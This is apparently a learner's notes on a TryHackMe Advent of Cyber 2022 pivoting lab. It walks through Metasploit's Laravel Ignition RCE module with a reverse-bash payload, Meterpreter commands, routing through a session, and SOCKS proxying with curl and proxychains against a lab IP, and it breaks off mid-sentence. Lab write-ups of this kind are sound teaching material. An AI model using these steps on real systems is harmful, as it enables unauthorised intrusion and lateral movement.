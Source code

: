 **Title:** Day 9 - THM 2022
**Tags:** [[Advent Cyber 2022]]
**Topics:** #TryHackMe #Pivoting

---
# Concepts
## Docker
Package applications and the associated dependencies into a single unit called “image”. This image can be shared and run as a container (Locally or remotely on a production server).
Common wait to know if the application is a docker container is to verify the existence of a `.docker.env` file.

## Metasploit
Powerful penetration testing tool for gaining initial access to systems. You can also perform post-expoiltation and pivoting to other applications and systems.

### Metasploit session
After exploiting a remote target with a Metasploit module, a session is often opened by default. These sessions are Command Shells or Meterpreter session (Allow command execution).

```Metasploit Console
# view sessions
sessions

# upgrade the last opened session to Meterpreter
sessions -u -1

# interact with a session
sessions -i session_id

# Background the currently interactive session, and go back to the Metasploit prompt
background
```

## Meterpreter
Advanced payload that provides interactive access to compromised system. Can run commands on remote target, including uploading/downloading files and pivoting.

```Meterpreter Commands
# Get information about the remote system, such as OS
sysinfo

# Upload a file or directory
upload local_file.txt

# Display interfaces
ipconfig

# Resolve a set of host names on the target to IP addresses - useful for pivoting
resolve remote_service1 remote_service2
```

## Pivoting
Once a system is compromised, it can allow the attacker to find more systems on the network and exploit them. We can use nmap or arp-scan to find more machines and services.
![[Pasted image 20221210101259.png]]


## Using Metasploit
1. Open Metasploit with `msfconsole` command.

2. Select the most useful Metasploit module for this attack (laravel).
```Metasploit
# To search for a module, use the ‘search’ command:
msf6 > search laravel

# Load a module with the ‘use’ command
msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
```

3. Now you can view the options, set options and run the module.
```Metasploit Commands
# View the available options to set
show options

# Set the target host and logging
set rhost MACHINE_IP
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

## Meterpreter to pivot
Metasploit has an internal routing table that can be modified with `route` command. This determines where to send network traffic through.
```Metasploit Commands
# Example usage
route [add/remove] subnet netmask [comm/sid]

# Configure the routing table to send packets destined for 172.17.0.1 to the latest opened session
route add 172.17.0.1/32 -1

# Configure the routing table to send packets destined for 172.28.101.48/29 subnet to the latest opened session
route add 172.28.10.48/29 -1

# Output the routing table
route print
```

## Socks Proxy
Intermediate server that supports relaying networking traffic between two machines. Allows the implementation of pivoting technique. You can run Socks Proxy locally or in the compromised system. This can be achieved using `auxiliary/server/socks_proxy` module.

```Metasploit Commands
use auxiliary/server/socks_proxy
run srvhost=127.0.0.1 srvport=9050 version=4a
```

Tools such as `curl` supports sending requests through a socks proxy server via `--proxy` flag.
```sh
curl --proxy socks4a://localhost:9050 http://10.10.40.65
```

ProxyChain can intercept the tool's request to open a new network connection and route the request through a socks proxy instead.
```sh
proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 10.10.40.65
```

# Challenge
## Enumeration
```sh
└─# nmap -p- 10.10.40.65 -Pn -n -v
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:C2:4A:6E:C9:01 (Unknown)
```

## Web
![[Pasted image 20221210103547.png]]

Now we can see that the server is running Laravel (Common Web Application development framework).
The application may be vulnerable to a remote code execution exploit. We can use Metasploit to verify it.

## Metasploit

```Metasploit Commands
msf6 > use multi/php/ignition_laravel_debug_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/php/ignition_laravel_debug_rce) > check rhost=10.10.40.65 HttpClientTimeout=20

[*] Checking component version to 10.10.40.65:80
[*] 10.10.40.65:80 - The target appears to be vulnerable.
```

[//]: Set `HttpClientTimeout=20` or check may fail. If the connection is really slow/unstable, you may need a higher value.

Now that we now that the target is vulnerable, lets 
```
```
